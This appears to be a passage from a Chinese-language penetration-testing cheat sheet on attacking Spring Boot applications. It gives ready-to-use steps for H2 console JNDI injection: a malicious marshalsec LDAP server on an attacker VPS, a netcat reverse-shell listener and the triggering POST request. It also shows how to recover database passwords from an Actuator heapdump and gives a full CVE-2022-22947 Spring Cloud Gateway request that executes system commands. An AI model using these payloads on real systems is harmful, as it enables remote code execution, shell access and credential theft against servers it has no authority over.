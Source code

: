 步骤三:在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

步骤四: 架设恶意 ldap 服务

下载 marshalsec ，使用下面命令架设对应的 ldap 服务：

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389`

https://github.com/RandomRobbieBF/marshalsec-jar/blob/master/marshalsec-0.0.3-SNAPSHOT-all.jar

```py
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

步骤五：监听反弹 shell 的端口 `nc -lv 443`

步骤六：发包触发 JNDI 注入

根据实际情况，替换下面数据中的 jsessionid=xxxxxx、www.example.com 和 ldap://your-vps-ip:1389/JNDIObject

POST /h2-console/login.do?jsessionid=xxxxxx

```
POST /h2-console/login.do?jsessionid=xxxxxx
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Referer: http://www.example.com/h2-console/login.jsp?jsessionid=xxxxxx

language=en&setting=Generic+H2+%28Embedded%29&name=Generic+H2+%28Embedded%29&driver=javax.naming.InitialContext&url=ldap://your-vps-ip:1389/JNDIObject&user=&password=
```

**heapdump查询操作**

* https://github.com/wyzxxz/heapdump\_tool

Spring Boot Actuator未授权访问发现/env中有数据库连接配置信息，但是密码都是\*号，这时可以尝试是否可以下载heapdump，在内存信息中找到对应的密码。

**Spring-Cloud-Gateway-CVE-2022-22947**

https://github.com/lucksec/Spring-Cloud-Gateway-CVE-2022-22947

* https://mp.weixin.qq.com/s/kCbcKuPqy9Ar-arjMYgUmw
* https://mp.weixin.qq.com/s/xTEXQ-J0ENc6sG4\_8SJM6g

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329
{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```